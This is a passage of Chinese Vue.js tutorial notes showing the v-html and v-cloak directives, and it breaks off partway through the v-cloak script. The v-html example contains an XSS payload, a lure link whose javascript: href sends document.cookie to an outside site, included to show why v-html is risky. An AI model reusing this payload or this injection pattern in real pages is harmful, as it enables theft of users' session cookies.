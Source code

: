 ```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>	
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

### 其他指令

> v-cloak
>

- 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性
- 使用 css 配合 v-cloak 可以解决网速慢时页面展示出 {{ `xxx` }} 的问题

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
```